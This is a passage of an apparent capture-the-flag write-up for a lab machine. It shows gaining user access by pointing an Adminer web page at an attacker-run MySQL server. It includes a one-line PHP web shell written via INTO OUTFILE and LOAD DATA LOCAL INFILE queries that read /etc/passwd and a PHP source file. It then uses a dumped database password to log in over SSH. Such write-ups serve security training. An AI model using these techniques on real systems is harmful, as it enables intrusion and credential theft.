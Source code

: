 #### 3.1. MySQL access

1) Run local server

```
# docker pull mysql:5.7
# ip=`ip a | grep tun0 | grep inet | awk '{print $2}' | sed 's/\/.*//g'`
# docker run --name mysql -e MYSQL_ROOT_PASSWORD=password -e ip=$ip -v /tmp:/tmp -p 3306:3306 --rm -it mysql:5.7
```

2) Test connection

```
# mysql -h 10.10.14.21 -u root -ppassword -e 'CREATE DATABASE xxx; USE xxx; CREATE TABLE test(data VARCHAR(255));'
# mysql -h 10.10.14.21 -u root -ppassword -e 'SHOW DATABASES;'
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| xxx                |
+--------------------+
```

3) Login on MySQL web interface

```
URL: http://10.10.10.187/utility-scripts/adminer.php
Server: 10.10.14.21 (our Docker container)
User: root
Pass: password
Database: xxx
URL: http://10.10.10.187/utility-scripts/adminer.php?server=10.10.14.21&username=root&sql=
```

Attempt 1:
```sql
SELECT "<?=system($_POST['c']);?>" INTO OUTFILE '/var/www/html/a.php' 
```
Error: `Error in query (1290): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`


Attempt 2:
```sql
LOAD DATA LOCAL INFILE '/etc/passwd'
INTO TABLE test
FIELDS TERMINATED BY '/n'
```
Error: `Error in query (2000): open_basedir restriction in effect. Unable to open file`


Attempt 3:
```sql
LOAD DATA LOCAL INFILE '../robots.txt'
INTO TABLE test
FIELDS TERMINATED BY '/n'
```
Response: `Query executed OK, 4 rows affected.`


Attempt 4:
```sql
LOAD DATA LOCAL INFILE '../index.php'
INTO TABLE test
FIELDS TERMINATED BY '/n'
```
Response: `Query executed OK, 123 rows affected.`


Read the dumped data: `SELECT * FROM test;`
```
...
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
...
```

#### 3.2. User shell access

```
sshpass -p"&<h5b~yK3F#{PaPB&dA}{H>" ssh -o StrictHostKeyChecking=no waldo@10.10.10.187
Warning: Permanently added '10.10.10.187' (ECDSA) to the list of known hosts.
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Wed Apr 29 10:56:59 2020 from 10.10.14.3
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
waldo@admirer:~$ cat user.txt
2dd6a1a1ad190f76bcdacbcdf79622e3
```
